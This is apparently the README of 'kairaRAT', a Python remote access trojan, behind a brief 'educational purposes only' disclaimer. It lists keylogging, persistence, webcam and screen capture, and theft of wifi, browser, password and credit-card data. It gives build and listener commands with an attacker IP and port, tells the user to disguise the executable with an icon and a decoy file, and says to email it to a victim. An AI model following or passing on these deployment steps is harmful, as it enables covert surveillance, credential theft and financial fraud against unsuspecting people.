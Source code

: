 # kairaRAT
kairaRAT is a remote access trojan tool built with python. 

This is based on the project of the same name by: st4inl3s5 (stainless)

Needs python 3.8 or higher

# EDUCATIONAL PURPOSES ONLY. 
#### > There is absolutely no warranty express or implied. 
#### > Do NOT USE on computers that you do not control.
#### > It is made exclusively for training in a highly Controlled lab environment. 
#### > Do NOT use outside a controlled lab. This is your last WARNING. 
#### > You are completely responsible for how you use kairaRAT. Any use of kairaRAT is at your own risk. 
#### > Wrong / Improper use of kairaRAT may be an offence.
#### > Use of kairaRAT for BAD / Illegal activities is a punishable offence. 
 
## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer.

+ Taking victim's camera snapshots.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Taking browser saved cookies, passwords and credit cards.


## SETUP

You need 2 OS.1)Unix(You can use kali linux) OS 2)Windows OS.Unix for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

 On Windows:
     
     pip install -r winrequirements.txt

 On Linux:

     pip install -r linrequirements.txt

## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
    python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example

        python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example
  
        python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
![zibab2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/e1a1f0c5-90e7-4db2-8bbc-02c3ada16920)

  3. Wait for building process.When the building finished, you see a message :
 
![zibib3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/1dcc35df-0e02-46ee-82e7-45b03f51a5b5)

  4. Check the builds directory.You must see the executable file.

![zibib4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/8e00b10f-f171-4790-a819-0c9f5f33e70b)

  5. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself, keylogging and makes persistence.
 
![zibib5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f90e71f9-c883-4600-ae8d-bdb3f8ae0ab6)

  6. Then listen the connections on your linux with the following command :
 
    python3 main.py server -ip <your_server_ip_address> -p <your_server_port>
 
  +  Example

    python3 main.py server -ip 172.28.89.113 -p 4444 
 
  7. When the connection established, a screen like this appear :

![zibib1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/3b84fe44-21e2-43de-ab7a-c3c50d5fb35c)

  8. Type 'help' for command list.The usage all of them is written.
 
  9. You can take camera snapshots, screenshots, victim's keylogs.
 
![zibib6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f6695aa3-cb72-4b80-83d1-9ff27ec8c681)


